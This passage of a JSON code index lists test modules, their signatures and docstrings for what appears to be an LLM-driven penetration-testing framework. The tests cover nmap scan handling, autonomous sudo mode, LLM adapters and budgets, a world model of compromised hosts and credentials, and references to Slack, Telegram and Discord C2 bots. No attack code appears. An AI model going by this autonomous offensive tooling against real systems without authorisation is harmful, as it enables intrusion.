"line": 248, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 259, "name": "test_now_uses_utc", "signature": "def test_now_uses_utc(self)"}, {"kind": "method", "line": 263, "name": "test_fields", "signature": "def test_fields(self)"}, {"kind": "method", "line": 271, "name": "test_numeric_levels", "signature": "def test_numeric_levels(self)"}, {"kind": "method", "line": 283, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 298, "name": "test_metadata_default", "signature": "def test_metadata_default(self)"}, {"kind": "method", "line": 306, "name": "test_values", "signature": "def test_values(self)"}, {"kind": "method", "line": 310, "name": "test_str_compat", "signature": "def test_str_compat(self)"}, {"kind": "method", "line": 317, "name": "test_order", "signature": "def test_order(self)"}, {"kind": "method", "line": 322, "name": "test_compare", "signature": "def test_compare(self)"}]}, {"doc": "Spec coverage for :mod:`cli.lazynmap_post`.  The post-scan helper composes three side effects (plan, world model, event). Each test isolates one of them so a regression points to the specific responsibility. Fixtures touch only ``tmp_path``.", "id": "tests/test_lazynmap_post.py", "kind": "module", "label": "test_lazynmap_post.py", "language": "py", "sha256": "5ad8a229de4b4038", "symbol_count": 16, "symbols": [{"kind": "function", "line": 37, "name": "_seed_addon", "signature": "def _seed_addon(addons)"}, {"kind": "function", "line": 59, "name": "_seed_environment", "signature": "def _seed_environment(tmp)"}, {"kind": "function", "line": 71, "name": "_make_engine", "signature": "def _make_engine(sessions, addons, tools)"}, {"kind": "class", "line": 81, "name": "_ConsoleRecorder", "signature": "class _ConsoleRecorder"}, {"doc": "Spec 1 — successful run writes plan, world model and event.", "kind": "class", "line": 88, "name": "PostScanOutputSpec", "signature": "class PostScanOutputSpec(TestCase)"}, {"doc": "Spec 2 — operator toggle short-circuits every side effect.", "kind": "class", "line": 186, "name": "PostScanToggleSpec", "signature": "class PostScanToggleSpec(TestCase)"}, {"doc": "Spec 3 — failures inside one branch never break the others.", "kind": "class", "line": 228, "name": "PostScanResilienceSpec", "signature": "class PostScanResilienceSpec(TestCase)"}, {"kind": "method", "line": 84, "name": "print", "signature": "def print(self, line)"}, {"kind": "method", "line": 91, "name": "test_writes_plan_world_model_and_event", "signature": "def test_writes_plan_world_model_and_event(self)"}, {"kind": "method", "line": 117, "name": "test_world_model_is_merged_not_overwritten", "signature": "def test_world_model_is_merged_not_overwritten(self)"}, {"kind": "method", "line": 142, "name": "test_event_record_carries_target_and_counts", "signature": "def test_event_record_carries_target_and_counts(self)"}, {"kind": "method", "line": 166, "name": "test_console_receives_plan_preview_lines", "signature": "def test_console_receives_plan_preview_lines(self)"}, {"kind": "method", "line": 189, "name": "test_disabled_payload_skips_all_writes", "signature": "def test_disabled_payload_skips_all_writes(self)"}, {"kind": "method", "line": 210, "name": "test_string_falsy_toggle_is_respected", "signature": "def test_string_falsy_toggle_is_respected(self)"}, {"kind": "method", "line": 231, "name": "test_engine_failure_still_emits_event_and_updates_world_model", "signature": "def test_engine_failure_still_emits_event_and_updates_world_model(self)"}, {"kind": "function", "line": 235, "name": "_broken_factory", "signature": "def _broken_factory()"}]}, {"doc": "LazyNmap sudo branches: unattended abort vs interactive prompt.  Regression pin for the live incident where an interactive ``nmap`` run aborted because the script could not see a terminal (the CLI captures output through pipes, so ``[ -t 1 ]`` is false). The branch must instead key on ``LAZYOWN_AUTONOMOUS=1``, which only the loop sets.", "id": "tests/test_lazynmap_sudo_branches.py", "kind": "module", "label": "test_lazynmap_sudo_branches.py", "language": "py", "sha256": "167b2eb113da7c89", "symbol_count": 4, "symbols": [{"doc": "Build a PATH dir with a failing sudo and a silent gum.", "kind": "function", "line": 18, "name": "_fake_bin", "signature": "def _fake_bin(tmp_path)"}, {"kind": "function", "line": 31, "name": "_run_script", "signature": "def _run_script(tmp_path, extra_env)"}, {"doc": "Unattended runs refuse to prompt: exit 3 with a clear message.", "kind": "function", "line": 48, "name": "test_autonomous_mode_aborts_without_passwordless_sudo", "signature": "def test_autonomous_mode_aborts_without_passwordless_sudo(tmp_path)"}, {"doc": "Without the autonomous flag the script tries the password flow.", "kind": "function", "line": 55, "name": "test_interactive_mode_keeps_the_sudo_prompt_path", "signature": "def test_interactive_mode_keeps_the_sudo_prompt_path(tmp_path)"}]}, {"doc": "Legacy shim contract plus referenced-script existence.  SDD contract: ``modules/legacy/*.py`` must stay symlinks into ``contrib/legacy/`` (the documented shim design), never byte-copies that can drift. Separately, every ``python3 modules/...py`` script path embedded in migrated commands must resolve to a real file, so commands like ``seo`` fail loudly in tests instead of at 2am during an engagement.", "id": "tests/test_legacy_shims.py", "kind": "module", "label": "test_legacy_shims.py", "language": "py", "sha256": "fe4374e489b9c632", "symbol_count": 5, "symbols": [{"kind": "class", "line": 23, "name": "TestLegacyShims", "signature": "class TestLegacyShims"}, {"kind": "class", "line": 43, "name": "TestReferencedScriptsExist", "signature": "class TestReferencedScriptsExist"}, {"kind": "method", "line": 24, "name": "test_no_regular_file_clones", "signature": "def test_no_regular_file_clones(self)"}, {"kind": "method", "line": 32, "name": "test_symlinks_resolve_into_contrib", "signature": "def test_symlinks_resolve_into_contrib(self)"}, {"kind": "method", "line": 44, "name": "test_exploit_migrated_script_paths", "signature": "def test_exploit_migrated_script_paths(self)"}]}, {"doc": "Tests for modules/lesson_ingestor.py.", "id": "tests/test_lesson_ingestor.py", "kind": "module", "label": "test_lesson_ingestor.py", "language": "py", "sha256": "c0468a63196be1ae", "symbol_count": 11, "symbols": [{"kind": "class", "line": 15, "name": "TestLessonLearned", "signature": "class TestLessonLearned"}, {"kind": "class", "line": 35, "name": "TestLessonIngestor", "signature": "class TestLessonIngestor"}, {"kind": "method", "line": 16, "name": "test_from_dict", "signature": "def test_from_dict(self)"}, {"kind": "method", "line": 29, "name": "test_from_dict_minimal", "signature": "def test_from_dict_minimal(self)"}, {"kind": "method", "line": 36, "name": "test_expert_mapping", "signature": "def test_expert_mapping(self)"}, {"kind": "method", "line": 43, "name": "test_ingest_with_mock_backends", "signature": "def test_ingest_with_mock_backends(self, tmp_path)"}, {"kind": "method", "line": 62, "name": "test_ingest_unmapped_topic", "signature": "def test_ingest_unmapped_topic(self, tmp_path)"}, {"kind": "method", "line": 79, "name": "test_ingest_no_backends", "signature": "def test_ingest_no_backends(self, monkeypatch)"}, {"kind": "method", "line": 99, "name": "test_load_from_file", "signature": "def test_load_from_file(self, tmp_path)"}, {"kind": "method", "line": 119, "name": "test_load_from_file_missing", "signature": "def test_load_from_file_missing(self, tmp_path)"}, {"kind": "method", "line": 124, "name": "test_ingest_all", "signature": "def test_ingest_all(self, tmp_path)"}]}, {"doc": "Lint quality gate.  Runs ``ruff check`` and ``ruff format --check`` against every Python file that the active tier has touched, and fails the test suite if any violation appears. This prevents Tier-N regressions from shipping to ``main`` even if a developer forgets to run pre-commit.  The strict set covers:  - Project packaging (``setup.py``, ``tests/test_packaging.py``). - The ``core/`` package and ``utils.py`` re-exports (``tests/test_core.py``). - The ``cli/`` package, the YAML aliases, the ``CommandSet`` registry, the ``do_assign``/``do_show`` helpers and the operator command palette (``tests/test_cli_command_sets.py``, ``tests/test_cli_assign.py``, ``tests/test_command_palette.py``). - The maintenance scripts under ``scripts/``.  New files added by future feature work must be appended to both lists below.  Tests are parametrized so a failure points at the exact file.", "id": "tests/test_lint_quality.py", "kind": "module", "label": "test_lint_quality.py", "language": "py", "sha256": "1314531ccc4583b8", "symbol_count": 5, "symbols": [{"doc": "Invoke ``python -m ruff`` so the venv's ruff binary is always used.", "kind": "function", "line": 63, "name": "_run_ruff", "signature": "def _run_ruff(args)"}, {"doc": "``ruff check`` must report zero issues on touched paths.", "kind": "function", "line": 75, "name": "test_ruff_check_clean", "signature": "def test_ruff_check_clean(target)"}, {"doc": "``ruff format --check`` must report zero formatting drift on touched paths.", "kind": "function", "line": 84, "name": "test_ruff_format_clean", "signature": "def test_ruff_format_clean(target)"}, {"doc": "Every entry in ``LINT_TARGETS`` must exist on disk.", "kind": "function", "line": 94, "name": "test_lint_targets_exist", "signature": "def test_lint_targets_exist()"}, {"doc": "Every entry in ``FORMAT_TARGETS`` must exist on disk.", "kind": "function", "line": 100, "name": "test_format_targets_exist", "signature": "def test_format_targets_exist()"}]}, {"doc": "Tests for modules/live_surface.py.  The suite drives the builder with synthetic world-model snapshots shaped like the real ``sessions/world_model.json`` (hosts with services, credentials and a network graph). It pins compromise/pulse classification, edge derivation, centrality-driven sizing and graceful degradation on empty or malformed input.", "id": "tests/test_live_surface.py", "kind": "module", "label": "test_live_surface.py", "language": "py", "sha256": "6598f3a13a6786b9", "symbol_count": 10, "symbols": [{"kind": "function", "line": 25, "name": "_world", "signature": "def _world()"}, {"kind": "function", "line": 55, "name": "test_empty_world_is_well_formed", "signature": "def test_empty_world_is_well_formed()"}, {"kind": "function", "line": 63, "name": "test_none_world_is_tolerated", "signature": "def test_none_world_is_tolerated()"}, {"kind": "function", "line": 68, "name": "test_hosts_and_services_become_nodes", "signature": "def test_hosts_and_services_become_nodes()"}, {"kind": "function", "line": 79, "name": "test_owned_host_pulses_and_counts_as_compromised", "signature": "def test_owned_host_pulses_and_counts_as_compromised()"}, {"kind": "function", "line": 87, "name": "test_host_with_credential_pulses_even_if_not_owned", "signature": "def test_host_with_credential_pulses_even_if_not_owned()"}, {"kind": "function", "line": 95, "name": "test_runs_service_edge_is_emitted_once", "signature": "def test_runs_service_edge_is_emitted_once()"}, {"kind": "function", "line": 102, "name": "test_stats_block_counts", "signature": "def test_stats_block_counts()"}, {"kind": "function", "line": 109, "name": "test_malformed_host_entry_is_skipped", "signature": "def test_malformed_host_entry_is_skipped()"}, {"kind": "function", "line": 116, "name": "test_compromised_states_constant_matches_world_model", "signature": "def test_compromised_states_constant_matches_world_model()"}]}, {"doc": "Parity contract tests for the self-contained Groq adapter family.  Guards the ``modules.llm_adapter`` Groq ``process_prompt_*`` implementation so it preserves legacy call semantics (client-or-None handling, file-reading variants, event/plan augmentation, knowledge persistence) without depending on ``modules.legacy.lazygptcli*``.", "id": "tests/test_llm_adapter_parity.py", "kind": "module", "label": "test_llm_adapter_parity.py", "language": "py", "sha256": "19724c2754475b1a", "symbol_count": 41, "symbols": [{"kind": "class", "line": 23, "name": "_FakeCompletions", "signature": "class _FakeCompletions"}, {"kind": "class", "line": 37, "name": "_FakeClient", "signature": "class _FakeClient"}, {"kind": "function", "line": 44, "name": "cfg", "signature": "def cfg(tmp_path)"}, {"kind": "function", "line": 55, "name": "patched", "signature": "def patched(monkeypatch, cfg)"}, {"kind": "function", "line": 60, "name": "_write", "signature": "def _write(path, text)"}, {"kind": "class", "line": 65, "name": "TestMissingClient", "signature": "class TestMissingClient"}, {"kind": "class", "line": 88, "name": "TestUninitializedClient", "signature": "class TestUninitializedClient"}, {"kind": "class", "line": 94, "name": "TestDirectPromptFlow", "signature": "class TestDirectPromptFlow"}, {"kind": "class", "line": 113, "name": "TestKnowledgePersistence", "signature": "class TestKnowledgePersistence"}, {"kind": "class", "line": 129, "name": "TestFileReadingVariants", "signature": "class TestFileReadingVariants"}, {"kind": "class", "line": 147, "name": "TestVulnAugmentation", "signature": "class TestVulnAugmentation"}, {"kind": "class", "line": 171, "name": "TestExports", "signature": "class TestExports"}, {"kind": "class", "line": 191, "name": "_FakeBackend", "signature": "class _FakeBackend"}, {"kind": "class", "line": 205, "name": "TestAskGeneral", "signature": "class TestAskGeneral"}, {"kind": "method", "line": 24, "name": "__init__", "signature": "def __init__(self, content)"}, {"kind": "method", "line": 30, "name": "create", "signature": "def create(self, model, messages, max_tokens)"}, {"kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, content)"}, {"kind": "method", "line": 76, "name": "test_direct_variants_report_missing_key", "signature": "def test_direct_variants_report_missing_key(self, patched, name)"}, {"kind": "method", "line": 81, "name": "test_file_variants_report_missing_key", "signature": "def test_file_variants_report_missing_key(self, patched, name, tmp_path)"}, {"kind": "method", "line": 89, "name": "test_complete_error_handled", "signature": "def test_complete_error_handled(self, patched)"}, {"kind": "method", "line": 95, "name": "test_sends_user_message_and_returns_content", "signature": "def test_sends_user_message_and_returns_content(self, patched)"}, {"kind": "method", "line": 100, "name": "test_completion_received_single_user_message", "signature": "def test_completion_received_single_user_message(self, patched)"}, {"kind": "method", "line": 107, "name": "test_default_max_tokens_applied", "signature": "def test_default_max_tokens_applied(self, patched)"}, {"kind": "method", "line": 114, "name": "test_successful_response_is_remembered", "signature": "def test_successful_response_is_remembered(self, patched, cfg)"}, {"kind": "method", "line": 122, "name": "test_error_response_not_remembered", "signature": "def test_error_response_not_remembered(self, patched, cfg)"}, {"kind": "method", "line": 130, "name": "test_task_reads_file_content", "signature": "def test_task_reads_file_content(self, patched, tmp_path)"}, {"kind": "method", "line": 137, "name": "test_task_missing_file_returns_error", "signature": "def test_task_missing_file_returns_error(self, patched, tmp_path)"}, {"kind": "method", "line": 141, "name": "test_redop_reads_file_content", "signature": "def test_redop_reads_file_content(self, patched, tmp_path)"}, {"kind": "method", "line": 148, "name": "test_appends_event_tool_output", "signature": "def test_appends_event_tool_output(self, patched, cfg, tmp_path)"}, {"kind": "method", "line": 161, "name": "test_appends_plan_history", "signature": "def test_appends_plan_history(self, patched, cfg, tmp_path)"}, {"kind": "method", "line": 172, "name": "test_groq_family_exports_present", "signature": "def test_groq_family_exports_present(self)"}, {"kind": "method", "line": 186, "name": "test_safe_groq_client_none_without_key", "signature": "def test_safe_groq_client_none_without_key(self)"}, {"kind": "method", "line": 192, "name": "__init__", "signature": "def __init__(self, result)"}, {"kind": "method", "line": 197, "name": "complete", "signature": "def complete(self, system, user)"}, {"kind": "method", "line": 206, "name": "test_uses_configured_backend", "signature": "def test_uses_configured_backend(self, patched, monkeypatch)"}, {"kind": "method", "line": 213, "name": "test_receives_system_and_rendered_user", "signature": "def test_receives_system_and_rendered_user(self, patched, monkeypatch)"}, {"kind": "method", "line": 223, "name": "test_missing_backend_reports_error", "signature": "def test_missing_backend_reports_error(self, patched, monkeypatch)"}, {"kind": "method", "line": 230, "name": "test_backend_exception_reports_error", "signature": "def test_backend_exception_reports_error(self, patched, monkeypatch)"}, {"kind": "method", "line": 237, "name": "test_backend_error_string_not_remembered", "signature": "def test_backend_error_string_not_remembered(self, patched, cfg, monkeypatch)"}, {"kind": "method", "line": 246, "name": "test_successful_answer_remembered", "signature": "def test_successful_answer_remembered(self, patched, cfg, monkeypatch)"}, {"kind": "method", "line": 257, "name": "test_exported", "signature": "def test_exported(self)"}]}, {"doc": "Contract tests for the LLM budget cap.  The tests below pin the contract the spec declares. Every test verifies a single behaviour the operator can read in plain English. The tests start red until the implementation in ``core/llm_budget.py`` ships.", "id": "tests/test_llm_budget.py", "kind": "module", "label": "test_llm_budget.py", "language": "py", "sha256": "dd012c7a8527216d", "symbol_count": 27, "symbols": [{"doc": "Redirect the session directory to a temporary path.", "kind": "function", "line": 27, "name": "tmp_sessions", "signature": "def tmp_sessions(tmp_path, monkeypatch)"}, {"doc": "The budget module lives at core/llm_budget and exports the public surface.", "kind": "function", "line": 35, "name": "test_budget_module_is_importable", "signature": "def test_budget_module_is_importable()"}, {"doc": "The BudgetConfig dataclass carries every key the spec declares.", "kind": "function", "line": 51, "name": "test_budget_config_dataclass_carries_expected_fields", "signature": "def test_budget_config_dataclass_carries_expected_fields()"}, {"doc": "The token estimator returns a positive integer for a non empty string.", "kind": "function", "line": 71, "name": "test_token_estimator_counts_text_tokens", "signature": "def test_token_estimator_counts_text_tokens()"}, {"doc": "The token estimator returns zero for the empty string.", "kind": "function", "line": 81, "name": "test_token_estimator_handles_empty_string", "signature": "def test_token_estimator_handles_empty_string()"}, {"doc": "The same input yields the same count on every call.", "kind": "function", "line": 89, "name": "test_token_estimator_is_deterministic", "signature": "def test_token_estimator_is_deterministic()"}, {"doc": "The ledger appends a record and persists the cumulative cost.", "kind": "function", "line": 99, "name": "test_budget_ledger_records_a_charge", "signature": "def test_budget_ledger_records_a_charge(tmp_path)"}, {"doc": "The ledger survives a process restart by writing to disk.", "kind": "function", "line": 116, "name": "test_budget_ledger_persists_to_disk", "signature": "def test_budget_ledger_persists_to_disk(tmp_sessions)"}, {"doc": "The ledger zeroes the spend when the day boundary passes.", "kind": "function", "line": 136, "name": "test_budget_ledger_rolls_over_at_midnight", "signature": "def test_budget_ledger_rolls_over_at_midnight(tmp_sessions)"}, {"doc": "The guard raises BudgetExceeded when the daily budget is already spent.", "kind": "function", "line": 162, "name": "test_budget_guard_refuses_call_when_daily_budget_exhausted", "signature": "def test_budget_guard_refuses_call_when_daily_budget_exhausted(tmp_sessions)"}, {"doc": "The guard raises BudgetExceeded when the per call token cap is exceeded.", "kind": "function", "line": 195, "name": "test_budget_guard_refuses_call_when_token_cap_exceeded", "signature": "def test_budget_guard_refuses_call_when_token_cap_exceeded(tmp_sessions)"}, {"doc": "The guard records a charge when the call fits the budget.", "kind": "function", "line": 218, "name": "test_budget_guard_charges_a_successful_call", "signature": "def test_budget_guard_charges_a_successful_call(tmp_sessions)"}, {"doc": "The guard does not record or check when the budget is disabled.", "kind": "function", "line": 242, "name": "test_budget_guard_disabled_passes_through", "signature": "def test_budget_guard_disabled_passes_through(tmp_sessions)"}, {"doc": "The formatted status surfaces the spent and remaining amounts.", "kind": "function", "line": 265, "name": "test_format_budget_status_includes_spent_and_remaining", "signature": "def test_format_budget_status_includes_spent_and_remaining(tmp_sessions)"}, {"doc": "The read helper returns a structured status the MCP tool can serve.", "kind": "function", "line": 287, "name": "test_read_budget_status_returns_dict", "signature": "def test_read_budget_status_returns_dict(tmp_sessions)"}, {"doc": "The wrapper exposes generate, complete, and stream_generate.", "kind": "function", "line": 307, "name": "test_wrap_backend_with_budget_returns_same_shape", "signature": "def test_wrap_backend_with_budget_returns_same_shape(tmp_sessions)"}, {"doc": "The wrapper records a charge when a call succeeds.", "kind": "function", "line": 347, "name": "test_wrap_backend_with_budget_charges_call", "signature": "def test_wrap_backend_with_budget_charges_call(tmp_sessions)"}, {"doc": "The schema registry contains every new budget key.", "kind": "function", "line": 384, "name": "test_payload_schema_recognises_budget_keys", "signature": "def test_payload_schema_recognises_budget_keys()"}, {"doc": "The loader builds a BudgetConfig from a payload mapping.", "kind": "function", "line": 395, "name": "test_load_budget_config_reads_payload", "signature": "def test_load_budget_config_reads_payload(tmp_sessions)"}, {"kind": "class", "line": 316, "name": "_StubBackend", "signature": "class _StubBackend"}, {"kind": "class", "line": 356, "name": "_StubBackend", "signature": "class _StubBackend"}, {"kind": "method", "line": 317, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 320, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 323, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 357, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 360, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 363, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}]}, {"doc": "LLM subsystem contract tests.  Encodes the single-source-of-truth contract for the LLM integration layer:  - ``modules.llm_factory`` is the canonical factory for every backend. - ``modules.llm_client``, ``modules.llm_adapter``, ``modules.ai_model`` and ``modules.ai_fallback`` are the surviving support modules. - ``modules.unified_llm_client`` is dead code and must not exist.  Any regressions that reintroduce a parallel LLM entry point or break the factory surface are caught here.", "id": "tests/test_llm_contract.py", "kind": "module", "label": "test_llm_contract.py", "language": "py", "sha256": "68bf9c691d8af354", "symbol_count": 23, "symbols": [{"kind": "function", "line": 46, "name": "_import", "signature": "def _import(name)"}, {"kind": "class", "line": 50, "name": "TestDeadModuleRemoved", "signature": "class TestDeadModuleRemoved"}, {"kind": "class", "line": 56, "name": "TestLlmFactoryContract", "signature": "class TestLlmFactoryContract"}, {"kind": "class", "line": 86, "name": "TestSupportModulesContract", "signature": "class TestSupportModulesContract"}, {"kind": "class", "line": 114, "name": "TestBackendMetadataContract", "signature": "class TestBackendMetadataContract"}, {"kind": "method", "line": 51, "name": "test_unified_llm_client_does_not_exist", "signature": "def test_unified_llm_client_does_not_exist(self)"}, {"kind": "method", "line": 57, "name": "test_factory_importable", "signature": "def test_factory_importable(self)"}, {"kind": "method", "line": 60, "name": "test_factory_exposes_public_api", "signature": "def test_factory_exposes_public_api(self)"}, {"kind": "method", "line": 65, "name": "test_supported_backends_are_canonical", "signature": "def test_supported_backends_are_canonical(self)"}, {"kind": "method", "line": 69, "name": "test_backend_constants_exposed", "signature": "def test_backend_constants_exposed(self)"}, {"kind": "method", "line": 75, "name": "test_normalize_rejects_unknown_backend", "signature": "def test_normalize_rejects_unknown_backend(self)"}, {"kind": "method", "line": 80, "name": "test_normalize_falls_back_to_auto_on_empty", "signature": "def test_normalize_falls_back_to_auto_on_empty(self)"}, {"kind": "method", "line": 87, "name": "test_llm_client_exposes_public_api", "signature": "def test_llm_client_exposes_public_api(self)"}, {"kind": "method", "line": 92, "name": "test_llm_client_class_methods_present", "signature": "def test_llm_client_class_methods_present(self)"}, {"kind": "method", "line": 97, "name": "test_ai_fallback_exposes_public_api", "signature": "def test_ai_fallback_exposes_public_api(self)"}, {"kind": "method", "line": 102, "name": "test_ai_model_exposes_all_backends", "signature": "def test_ai_model_exposes_all_backends(self)"}, {"kind": "method", "line": 107, "name": "test_ai_fallback_reads_factory_constants", "signature": "def test_ai_fallback_reads_factory_constants(self)"}, {"kind": "method", "line": 115, "name": "test_metadata_helpers_exposed", "signature": "def test_metadata_helpers_exposed(self)"}, {"kind": "method", "line": 125, "name": "test_default_models_match_constants", "signature": "def test_default_models_match_constants(self)"}, {"kind": "method", "line": 135, "name": "test_model_config_keys_match_constants", "signature": "def test_model_config_keys_match_constants(self)"}, {"kind": "method", "line": 144, "name": "test_api_key_slots", "signature": "def test_api_key_slots(self)"}, {"kind": "method", "line": 153, "name": "test_requires_api_key_only_for_cloud", "signature": "def test_requires_api_key_only_for_cloud(self)"}, {"kind": "method", "line": 159, "name": "test_unknown_backend_rejected", "signature": "def test_unknown_backend_rejected(self)"}]}, {"doc": "Watchdog: core must not depend on the retired legacy Groq LLM scripts.  Encodes the consolidation contract — after the Groq ``process_prompt_*`` family moved into ``modules.llm_prompts`` / ``modules.llm_adapter``, no module under the core source tree may import ``modules.legacy.lazygptcli`` or ``modules.legacy.lazygptcli_unified``. Only the standalone C2 bots (``slack_c2_bot``, ``telegram_c2``, ``discord_c2``) may reference them, and they are out of the core tree.", "id": "tests/test_llm_legacy_isolation.py", "kind": "module", "label": "test_llm_legacy_isolation.py", "language": "py", "sha256": "1c1bb79ccd77df72", "symbol_count": 4, "symbols": [{"kind": "function", "line": 33, "name": "_core_source_files", "signature": "def _core_source_files()"}, {"kind": "function", "line": 47, "name": "_imported_targets", "signature": "def _imported_targets(node)"}, {"kind": "class", "line": 61, "name": "TestNoLegacyGroqImportInCore", "signature": "class TestNoLegacyGroqImportInCore"}, {"kind": "method", "line": 62, "name": "test_no_core_file_imports_legacy_groq", "signature": "def test_no_core_file_imports_legacy_groq(self)"}]}, {"doc": "Contract tests for :mod:`modules.llm_prompts`.  Verifies the canonical prompt-template and knowledge-base extraction: pure template rendering, context loading, KB CRUD/relevance, truncation and the stable template registry. No network or vendor SDK is exercised.", "id": "tests/test_llm_prompts.py", "kind": "module", "label": "test_llm_prompts.py", "language": "py", "sha256": "f6e848c2d4e00d77", "symbol_count": 27, "symbols": [{"kind": "function", "line": 23, "name": "_write_json", "signature": "def _write_json(path, payload)"}, {"kind": "function", "line": 29, "name": "_config", "signature": "def _config(tmp_path)"}, {"kind": "class", "line": 39, "name": "TestTruncateMessage", "signature": "class TestTruncateMessage"}, {"kind": "class", "line": 53, "name": "TestKnowledgeStore", "signature": "class TestKnowledgeStore"}, {"kind": "class", "line": 83, "name": "TestConfig", "signature": "class TestConfig"}, {"kind": "class", "line": 129, "name": "TestTemplates", "signature": "class TestTemplates"}, {"kind": "class", "line": 157, "name": "TestRegistryIntegrity", "signature": "class TestRegistryIntegrity"}, {"kind": "method", "line": 40, "name": "test_short_message_returned_unchanged", "signature": "def test_short_message_returned_unchanged(self)"}, {"kind": "method", "line": 43, "name": "test_long_message_truncated_with_ellipsis", "signature": "def test_long_message_truncated_with_ellipsis(self)"}, {"kind": "method", "line": 48, "name": "test_boundary_length_kept", "signature": "def test_boundary_length_kept(self)"}, {"kind": "method", "line": 54, "name": "test_load_missing_file_returns_empty", "signature": "def test_load_missing_file_returns_empty(self, tmp_path)"}, {"kind": "method", "line": 58, "name": "test_load_malformed_file_returns_empty", "signature": "def test_load_malformed_file_returns_empty(self, tmp_path)"}, {"kind": "method", "line": 63, "name": "test_add_and_load_roundtrip", "signature": "def test_add_and_load_roundtrip(self, tmp_path)"}, {"kind": "method", "line": 69, "name": "test_relevant_filters_on_keyword", "signature": "def test_relevant_filters_on_keyword(self, tmp_path)"}, {"kind": "method", "line": 76, "name": "test_relevant_limits_results", "signature": "def test_relevant_limits_results(self, tmp_path)"}, {"kind": "method", "line": 84, "name": "test_from_defaults_points_under_module_parent", "signature": "def test_from_defaults_points_under_module_parent(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 90, "name": "test_knowledge_base_path_resolves_names", "signature": "def test_knowledge_base_path_resolves_names(self, tmp_path)"}, {"kind": "method", "line": 94, "name": "test_payload_context_defaults_to_empty", "signature": "def test_payload_context_defaults_to_empty(self, tmp_path)"}, {"kind": "method", "line": 109, "name": "test_payload_context_reads_values", "signature": "def test_payload_context_reads_values(self, tmp_path)"}, {"kind": "method", "line": 116, "name": "test_event_tool_output_empty_when_no_match", "signature": "def test_event_tool_output_empty_when_no_match(self, tmp_path)"}, {"kind": "method", "line": 121, "name": "test_event_tool_output_reads_file", "signature": "def test_event_tool_output_reads_file(self, tmp_path)"}, {"kind": "method", "line": 131, "name": "test_render_includes_operator_prompt", "signature": "def test_render_includes_operator_prompt(self, tmp_path, name)"}, {"kind": "method", "line": 137, "name": "test_render_embeds_knowledge_tail", "signature": "def test_render_embeds_knowledge_tail(self, tmp_path, name)"}, {"kind": "method", "line": 144, "name": "test_general_embeds_payload_rhost", "signature": "def test_general_embeds_payload_rhost(self, tmp_path)"}, {"kind": "method", "line": 150, "name": "test_vuln_embeds_payload_rhost", "signature": "def test_vuln_embeds_payload_rhost(self, tmp_path)"}, {"kind": "method", "line": 158, "name": "test_kb_domains_are_valid_file_names", "signature": "def test_kb_domains_are_valid_file_names(self)"}, {"kind": "method", "line": 164, "name": "test_all_templates_have_registered_kb_domain", "signature": "def test_all_templates_have_registered_kb_domain(self)"}]}, {"doc": "Tests for ``modules.logging_config`` — resilient file logging.", "id": "tests/test_logging_config.py", "kind": "module", "label": "test_logging_config.py", "language": "py", "sha256": "caa148d0517afc93", "symbol_count": 5, "symbols": [{"kind": "function", "line": 13, "name": "_make_logger", "signature": "def _make_logger(handler)"}, {"kind": "class", "line": 21, "name": "TestResilientRotatingFileHandler", "signature": "class TestResilientRotatingFileHandler"}, {"kind": "method", "line": 22, "name": "test_writes_normally_when_dir_writable", "signature": "def test_writes_normally_when_dir_writable(self, tmp_path)"}, {"kind": "method", "line": 32, "name": "test_detaches_silently_when_file_unwritable", "signature": "def test_detaches_silently_when_file_unwritable(self, tmp_path, capsys)"}, {"kind": "method", "line": 47, "name": "test_rotating_file_is_exposed", "signature": "def test_rotating_file_is_exposed(self)"}]}, {"doc": "Loop AI-stack bridge: event bus, oracle, MoE/RL and SWAN wiring.  The bridge is exercised with stubbed dependencies so no expert, trainer or oracle file is touched; every stage is enabled explicitly per test.", "id": "tests/test_loop_ai_bridge.py", "kind": "module", "label": "test_loop_ai_bridge.py", "language": "py", "sha256": "e02b1111f2cc1815", "symbol_count": 14, "symbols": [{"doc": "Sandbox the lazy store for every test in this module.", "kind": "function", "line": 15, "name": "store", "signature": "def store(tmp_path, monkeypatch)"}, {"doc": "Bridge with every stage enabled and singletons reset.", "kind": "function", "line": 25, "name": "bridge", "signature": "def bridge(monkeypatch)"}, {"doc": "Stream noise never reaches the bus; meaningful kinds are categorized.", "kind": "function", "line": 34, "name": "test_publish_loop_event_skips_stream_kinds", "signature": "def test_publish_loop_event_skips_stream_kinds(bridge, monkeypatch)"}, {"doc": "Every activity line reaches the bridge (which gates and maps it).", "kind": "function", "line": 52, "name": "test_activity_log_publishes_to_bridge", "signature": "def test_activity_log_publishes_to_bridge(store, bridge, monkeypatch)"}, {"kind": "function", "line": 62, "name": "test_annotate_detection_uses_oracle", "signature": "def test_annotate_detection_uses_oracle(bridge, monkeypatch)"}, {"doc": "Guard steps carry oracle risk and feed MoE/RL with the outcome.", "kind": "function", "line": 74, "name": "test_worker_annotates_detection_and_records_outcome", "signature": "def test_worker_annotates_detection_and_records_outcome(store, bridge, monkeypatch)"}, {"doc": "The router's expert runs first and its outcome is fed back.", "kind": "function", "line": 108, "name": "test_llm_pool_prefers_moe_expert_and_records_outcome", "signature": "def test_llm_pool_prefers_moe_expert_and_records_outcome(store, bridge, monkeypatch)"}, {"doc": "SWAN supplies the planning reply when the stage is on.", "kind": "function", "line": 133, "name": "test_planner_uses_swan_when_available", "signature": "def test_planner_uses_swan_when_available(store, bridge, monkeypatch)"}, {"kind": "class", "line": 38, "name": "_Bus", "signature": "class _Bus"}, {"kind": "class", "line": 63, "name": "_Oracle", "signature": "class _Oracle"}, {"kind": "function", "line": 120, "name": "_complete", "signature": "def _complete(model, prompt, max_tokens)"}, {"kind": "function", "line": 140, "name": "_swan", "signature": "def _swan(prompt, task_type, phase, timeout)"}, {"kind": "method", "line": 39, "name": "publish", "signature": "def publish(self, event)"}, {"kind": "method", "line": 64, "name": "assess", "signature": "def assess(self, tool, command, category)"}]}, {"doc": "Loop orchestrates every auto verb plus addon/tool triggers.", "id": 